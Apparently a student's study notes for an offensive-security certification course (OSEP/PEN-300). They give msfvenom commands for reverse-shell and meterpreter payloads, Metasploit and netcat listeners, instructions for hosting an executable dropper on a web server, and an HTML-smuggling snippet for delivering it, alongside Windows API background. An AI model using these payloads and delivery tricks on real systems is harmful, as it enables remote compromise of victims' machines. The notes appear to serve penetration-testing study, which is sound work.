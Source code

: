 password: @Hide01

# generating payloads from meterpreter

```s
    msfvenom -p windows/x64/meterpreter/reverse_https -a x64 LHOST=10.10.138.10 LPORT=4443 EXITFUNC=thread -f ps1.
```
for starting reverse handler in msfconsole use
```s
    use exploit/multi/handler
    set payload
    set lhost
    set lport
    exploit
```
To send any session to background use bg
  list sessions using 'sessions'
  start interacting with a session using session number 'sessions 1'

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

### space racoon advice

https://spaceraccoon.dev/offensive-security-experienced-penetration-tester-osep-review-and-exam



